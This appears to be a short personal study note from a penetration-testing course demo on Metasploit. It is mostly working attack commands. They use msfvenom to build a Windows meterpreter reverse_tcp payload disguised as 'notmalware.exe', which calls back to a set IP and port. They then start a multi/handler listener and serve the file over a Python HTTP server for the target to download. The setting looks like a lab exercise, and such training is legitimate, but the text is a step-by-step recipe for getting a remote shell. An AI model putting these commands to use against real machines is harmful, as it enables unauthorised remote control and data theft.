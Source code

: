 #tool-red/exploitation

https://www.metasploit.com/n

https://docs.rapid7.com/metasploit/installing-the-metasploit-framework/

# Documentation
## TCM Demo

**Create the reverse_tcp malware for the windows machine:**
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.43.128 LPORT=4444 -f exe -o notmalware.exe`

**Then start up metasploit to run the listerner:**

`msfconsole`

within msfconsole

`use exploit/multi/handler`
`set PAYLOAD windows/meterpreter/reverse_tcp`
`set LHOST [net_int]`
`set LPORT 4444`
`exploit`

**Metasploit will now create a listener for the payload**

within `/home/tcp/malware` **create a python3 simple server** to download the malware on the  windows machine
`python3 -m http.server 8000`

On Windows machine enter in the http server:
![[download-exploit-tcm-example.png]]

### Creating shares
